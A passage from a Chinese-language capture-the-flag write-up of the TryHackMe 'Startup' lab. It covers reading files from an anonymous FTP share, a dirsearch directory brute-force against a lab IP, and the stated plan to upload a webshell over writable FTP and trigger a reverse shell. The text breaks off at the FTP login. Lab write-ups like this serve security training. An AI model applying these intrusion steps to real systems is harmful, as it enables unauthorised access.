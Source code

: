 ```notice.txt```内容

```
┌──(root💀kali)-[~/tryhackme/Startup]
└─# cat notice.txt 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

maya可能是个ssh用户名？

```important.jpg```显示两行文字

```
Everybody asks who's the impostor
but nobody asks how's the impostor
```

没看明白有啥有用的信息。

## 渗透80端口
打开80服务看看，显示一段话：
```

No spice here!

Please excuse us as we develop our site. We want to make it the most stylish and convienient way to buy peppers. Plus, we need a web developer. BTW if you're a web developer, contact us. Otherwise, don't you worry. We'll be online shortly!

— Dev Team

```

网页源代码里有一行注释：
```
when are we gonna update this??
```

## 目录爆破看看
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -e* -t 100 -u http://10.10.171.61                                                                                   
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )                                                                     
Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 100 | Wordlist size: 15492

Output File: /root/dirsearch/reports/10.10.171.61/_21-11-06_03-07-44.txt

Error Log: /root/dirsearch/logs/errors-21-11-06_03-07-44.log

Target: http://10.10.171.61/

[03:07:45] Starting:  
[03:08:41] 301 -  312B  - /files  ->  http://10.10.171.61/files/            
[03:08:42] 200 -    1KB - /files/                                           
[03:08:47] 200 -  808B  - /index.html                                       
```

存在一个files文件夹，文件目录显示和ftp上是一样的。那渗透思路就很简单，直接ftp上传webshell到服务器，在web上访问触犯反弹shell,刚才我们已经知道，ftp文件夹是可写的

## ftp上传webshell
```
┌──(root💀kali)-[~/tryhackme/Startup]
└─# ftp 10.10.171.61
Connected to 10.10.171.61.
220 (vsFTPd 3.0.3)
Name (10.10.171.61:root): anonymous